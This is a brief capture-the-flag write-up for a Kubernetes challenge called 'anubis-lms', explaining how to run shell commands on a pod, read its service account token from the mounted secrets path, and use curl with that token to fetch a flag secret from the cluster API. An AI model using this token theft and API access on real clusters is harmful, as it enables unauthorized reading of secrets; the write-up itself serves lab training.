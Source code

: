 # CTF101 Osiris

## kubernetes

### anubis-lms

* Use system commands in c++ to run shell commands on the pod.
* The vulnerability is that the service account for the pod has access to the
  kubernetes api.
* access the service account token from
  `/var/run/secrets/kubernetes.io/serviceaccount/token`
* use `env` to read the KUBERNETES_SERVICE_HOST and KUBERNETES_SERVICE_PORT.

```bash
curl -k -H \"Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)\" https://10.96.0.1/api/v1/namespaces/anubis/secret/flag
```
